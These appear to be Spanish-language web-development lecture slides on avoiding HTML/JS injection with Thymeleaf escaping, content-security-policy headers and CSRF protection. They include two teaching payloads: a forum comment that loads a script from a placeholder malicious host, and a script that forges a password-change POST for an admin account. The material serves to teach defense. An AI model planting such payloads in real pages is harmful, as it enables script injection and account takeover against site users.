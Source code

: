 ## Evitando inyección HTML/JS

* Valida, valida y valida. Y luego, escapa.

* Escapado: depende del contexto
    + dentro de un elemento HTML: **thymeleaf os ayuda**; usa `text`
    + dentro de un atributo de HTML: **thymeleaf os ayuda**: lo escapa automáticamente. 
    + dentro de JS: configura bien tu serialización (la veremos el próximo día).

## Incluyendo JS dinámico en tu HTML

~~~{.java}
model.addAttribute("message", "1 + Math.sqrt(2)");
~~~

~~~{.javascript}
// dentro de un <script> en un fichero html
var message =/*[[${message}]]*/ 'defaultanyvalue';
//            |              |
//            \--------------+-- sin ' ' entre comentario y corchetes

// OJO: recuerda escape.alf.nu!
~~~

## Evitando inyección de HTML/JS desde terceras páginas

* vale, tu página puede no contener inyecciones. Pero, ¿y las de otros?

* ¿Qué pasa si visitas un foro, y lees el comentario siguiente, y tu navegador ejectua ese JS?

~~~{.html}
¡Qué post tan bueno!<script src="http://servidormaligno.com/script.js"></script>
~~~

* Soluciones:

- Navegadores modernos: 
    + cabecera content-security-policy
    + CORS
    * X-Frame-Options

## Protegiendo posts: CSRF

* Cross-Site Request Forgery

~~~~ {.html}
<div>
    // si eso lo lee el admin de otroservidor, y está logeado...
    <script>   
    fetch("https://otroservidor/changePass", {
        method: 'POST',
        headers: {'Content-Type': 'application/json'},
        body: JSON.stringify({
            user: "admin",
            pass: "muahaha"
        })
    });
    </script>
</div>
~~~~
